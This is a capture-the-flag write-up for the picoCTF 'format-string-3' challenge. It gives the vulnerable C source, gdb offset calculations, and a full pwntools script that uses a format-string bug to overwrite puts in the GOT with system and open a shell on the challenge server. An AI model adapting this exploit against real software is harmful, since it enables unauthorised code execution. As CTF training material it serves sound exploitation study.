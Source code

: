 ### Challenge Description
![image](https://github.com/user-attachments/assets/44f7b671-5c9f-4ab9-b696-278016e0007b)

--- 
```
char *normal_string = "/bin/sh";

void setup() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);
}

void hello() {
	puts("Howdy gamers!");
	printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}

int main() {
	char *all_strings[MAX_STRINGS] = {NULL};
	char buf[1024] = {'\0'};

	setup();
	hello();	

	fgets(buf, 1024, stdin);	
	printf(buf);
	puts(normal_string);

	return 0;
}
```
Look at the source, we have puts() with a parameter is ``` /bin/sh ```. Therefore, we'll try to overwrite ``` puts ``` with ``` system ```.
Firstly, patch the file with the libc.so.6 they give us using pwninit.
The program prints out the address of ``` setvbuf ```. To take advantage of it, we'll find offset between ``` setvbuf ``` and ``` system ```. 
Then, subtract it and we'll get the address of ```system```.
``` 
gef➤  info func setvbuf
All functions matching regular expression "setvbuf":

Non-debugging symbols:
0x0000000000401070  setvbuf@plt
0x00007ffff7e5a3f0  _IO_setvbuf
0x00007ffff7e5a3f0  setvbuf
gef➤  p &system
$2 = (<text variable, no debug info> *) 0x7ffff7e2f760 <system>
gef➤  p/x 0x00007ffff7e5a3f0 - 0x7ffff7e2f760
$3 = 0x2ac90
```
However, we just need to overwrite 6 bytes LSB because the rest 6 bytes are the same. 
```
[0x404018] puts@GLIBC_2.2.5  →  0x7ffff7e59bf0
```  
Finally, here is my script:
```
#!/usr/bin/env python3

from pwn import *

# patch the file with libc first
exe = ELF("./format-string-3_patched", checksec=False)
libc = ELF("./libc.so.6", checksec=False)
# ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

# log
def slog(name, addr): 
    return success(': '.join([name, hex(addr)]))


# r = process(exe.path)
r = remote('rhea.picoctf.net', 59114)

r.recvuntil(b'setvbuf in libc: ')
setvbuf_addr = int(r.recvline()[:-1], 16)

slog('setvbuf: ', setvbuf_addr)

system = setvbuf_addr - 0x2ac90 # offset between system and setvbuf_addr = 0x2ac90

# we just need to overwrite 6 bytes LSB

part1 = system & 0xff
part2 = (system >> 8) & 0xffff

puts_got = 0x404018


payload = f'%{part1}c%41$hhn'.encode()

payload += f'%{part2-part1}c%42$hn'.encode()

# payload = payload.ljust(, b'a')

payload += p64(puts_got) + p64(puts_got + 1)

input()
r.sendline(payload)

r.interactive()
```
